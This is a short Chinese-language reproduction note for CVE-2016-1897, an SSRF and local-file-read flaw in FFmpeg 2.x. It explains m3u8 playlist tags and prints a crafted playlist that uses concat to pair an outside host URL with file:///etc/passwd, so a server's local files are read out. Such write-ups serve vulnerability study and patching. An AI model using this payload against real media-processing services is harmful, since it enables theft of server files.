 （CVE-2016-1897）Ffmpeg ssrf
============================

一、漏洞简介
------------

CVE-2016-1897只能读取文件的第一行

-   \#EXTM3U 标签是m3u8的文件头，开头必须要这一行

-   \#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒

-   \#EXT-X-VERSION:2 该标签可有可无

-   \#EXTINF:6, 表示该一段TS流文件的长度

-   \#EXT-X-ENDLIST 这个相当于文件结束符

二、漏洞影响
------------

FFmpeg 2.x

三、复现过程
------------

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request
Forgery)
恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对concat的支持(https://www.0-sec.org/ffmpeg-protocols.html\#concat
)来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    concat:http://dx.su/header.m3u8|file:///etc/passwd
    #EXT-X-ENDLIST

